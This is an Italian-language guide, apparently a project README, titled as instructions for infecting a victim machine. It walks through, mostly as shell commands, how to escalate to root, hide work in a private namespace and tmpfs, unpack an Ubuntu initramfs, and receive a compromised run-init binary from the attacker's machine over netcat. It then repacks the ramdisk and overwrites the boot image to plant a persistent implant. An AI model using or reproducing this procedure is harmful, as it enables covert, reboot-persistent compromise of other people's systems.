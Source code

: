 # Come infettare la macchina vittima
Per prima cosa è necessario ottenere una shell come `root` e quindi serve un exploit per scalare i privilegi, ad esempio:
```
./exploit
```
Fatto ciò, è possibile eseguire:
```
unshare -f
```
> **Nota:** Questo permette di eseguire un program in un nuovo namespace e, se invocato senza target, lancia una shell. L'opzione `-f` (`--fork`) permette di forkare la shell come child di unshare invece di eseguirla in modo diretto, inoltre, mentre unshare è in wait per il child ignora i segnali `SIGINT` e `SIGTERM` e non li inoltra al child. Quindi eventualmente vanno mandati direttamente al child.

Tutto ciò che viene scritto ora non può essere visto dagli altri processi, dunque si può creare uno spazio di lavoro *scratch* da sporcare:
```
mount -t tmpfs none /lost+found/
cd /lost+found/
```
È comodo creare due cartelle di lavoro che permettano di eseguire l'unpack e il repack del ramdisk:
```
mkdir tmp
mkdir tmp/extracted
```
## Unpack e modifica del ramdisk
Per copiare l'effettiva immagine del disco da infettare ed estrarne il contenuto:
```
cp /boot/initrd.img-5.13.0-40-generic tmp/
cd tmp/
unmkinitramfs initrd.img-5.13.0-40-generic ./extracted/
cd extracted/
```
A questo punto è possibile esplorare e modificare il FS `initramfs`. Dalla macchina attaccante si ottiene il binario `run-init` compromesso sfruttando `netcat` e lo si sostituisce all'originale:
```
nc -lvnp 9999 | base64 -d | tar xz
mv run-init main/usr/bin/run-init
```
## Repack del ramdisk
Per ricreare l'immagine del disco è necessario ricostruire l'archivio compresso come segue:
1. Compressione `early`:
```
cd early/
find . -print0 | cpio --null --create --format=newc > /lost+found/tmp/newinitrd
```
2. Compressione `early2`:
```
cd ../early2/
find kernel -print0 | cpio --null --create --format=newc >> /lost+found/tmp/newinitrd
```
3. Compressione `main`:
```
cd ../main/
find . | cpio --create --format=newc | lz4 -l -c >> /lost+found/tmp/newinitrd
```
## Sostituzione del disco
È possibile verificare che l'immagine del disco creata venga correttamente interpretata come l'originale:
```
cd /lost+found/tmp/
binwalk initrd.img-5.13.0-40-generic
binwalk newinitrd
```
Se tutto è corretto, si può procedere con l'attacco:
```
cp newinitrd /boot/initrd.img-5.13.0-40-generic
reboot
```
